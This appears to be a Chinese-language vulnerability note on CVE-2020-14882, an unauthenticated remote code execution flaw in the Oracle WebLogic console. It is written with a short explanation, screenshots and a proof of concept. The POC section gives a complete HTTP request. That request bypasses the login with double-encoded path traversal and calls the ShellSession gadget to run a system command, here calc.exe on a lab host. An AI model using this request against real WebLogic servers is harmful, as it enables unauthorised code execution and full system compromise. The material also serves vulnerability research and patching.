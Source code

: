 # CVE-2020-14882 weblogic 未授权命令执行

## **简介**

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于WebLogic的Console控制台组件中。此组件为WebLogic全版本默认自带组件，且该漏洞通过HTTP协议进行利用。将CVE-2020-14882和CVE-2020-14883进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。

![img](resource/%EF%BC%88CVE-2020-14882%EF%BC%89%20weblogic%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/media/640-20201028223454813.png)

根据补丁diff结果我们可以看出，可以看出上面的变化

我们可以通过下面的代码，任意加载某个类或者对象

```
http://<target>/console/console.portal?_nfpb=true&_pageLabel=HomePage1&handle=java.lang.String("ahihi")
```

![img](resource/%EF%BC%88CVE-2020-14882%EF%BC%89%20weblogic%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/media/640-20201028223454970.png)

## **未授权访问**

![img](resource/%EF%BC%88CVE-2020-14882%EF%BC%89%20weblogic%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/media/640-20201028223452474.png)

非法字符绕过登陆保护

## **POC**

首先通过非法字符绕过访问，然后通过Gadget调用命令执行，poc如下

![img](resource/%EF%BC%88CVE-2020-14882%EF%BC%89%20weblogic%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/media/640-20201028223449403.png)

```
GET /console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22); HTTP/1.1
Host: 192.168.3.189:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADM
Upgrade-Insecure-Requests: 1
```



https://mp.weixin.qq.com/s/48VIwTkyFVXUTS78kNByhg